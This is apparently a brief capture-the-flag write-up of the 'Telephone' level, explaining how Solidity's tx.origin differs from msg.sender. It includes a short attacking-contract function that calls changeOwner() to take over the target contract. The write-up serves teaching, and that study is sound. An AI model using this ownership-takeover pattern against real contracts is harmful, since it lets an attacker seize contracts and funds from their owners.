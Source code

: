 # 3 Telephone

## This state demonstrates the difference between tx.origin and msg.sender

tx.origin (address payable) = sender of the transation in the full call chain

msg.sender (address payable) =  ender of the message in the current call


In a situation where a user calls a function in contract 1, that calls a contract in function 2, 

```
            at execution contract 1     at execution in contract 2
msg.sender      userAddress                  contract1Address
tx.origin       userAddress                  userAddress
```

>Solution 
deploy an attacking contract and call the changeOwner() function in contract 1 from contract 2 
```
    function takeOwnership(address _owner) public {
        phone.changeOwner(_owner); 
    }
```
>Takeaway
you probably don't wanna use tx.origin